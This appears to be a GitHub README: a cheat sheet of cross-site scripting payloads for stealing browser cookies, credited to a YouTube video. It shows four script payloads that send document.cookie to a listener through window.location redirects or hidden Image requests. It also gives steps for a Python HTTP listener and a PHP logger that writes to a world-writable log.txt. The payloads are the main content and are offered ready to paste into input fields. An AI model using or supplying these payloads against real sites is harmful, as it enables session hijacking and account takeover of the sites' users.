 # Stealling Cookies

All Payload used from this YouTube Video

https://youtu.be/Kh1sgI5yLdk


# Take the Cookie From Python3 Server Listener

1 - Strat Python Server:

YasserREED > Python3 -m Server.http 3333 <- Any Port You Like!

2 - write Payload with window.location() function:

<script> window.location='http://127.0.0.1/:3333?cookie='+document.cookie </script> 

# Send Cookies without go to another window

1 - Start Python3 Server:

YasserREED> Python3 -m Server.http 3333 <- Any Port You Like!

2 - Write the Pyaload:

<script>
    var i = new Image();
    i.src="http://127.0.0.1:3333/?cookie="+document.cookie
</script>  


# Wirte PHP Code To Take the Cookie

1 - Go to HTML File:

[~] YasserREED> cd  /var/www/html

2 - Make File get.php:

YasserREED> sudo gedit get.php

// Code with the File Just Copy it 

3 - Make log.txt file:

YasserRED> sudo touch log.txt

4 - Give all Privileges:

YasserREED> sudo chmod 777 log.txt

# Send The Cookie to log.txt by get.php using window.location()

1 - Write The Payload:

<script> window.location='https://127.0.0.1/get.php?cookie='+document.cookie </script> 

2 - Paste into the input filed.

3 - Check log.txt. //if not shown you can refresh the page 🔄

# Take the cookie Silence by get.php and send it to log.txt

1 - Write Payload:

<script>
    var o = new Image();
    o.src="http://127.0.0.1/get.php?cookie="+document.cookie
</script>


2 - Paste into the input field.

3 - Check log.txt //if not shown you can refresh the page 🔄

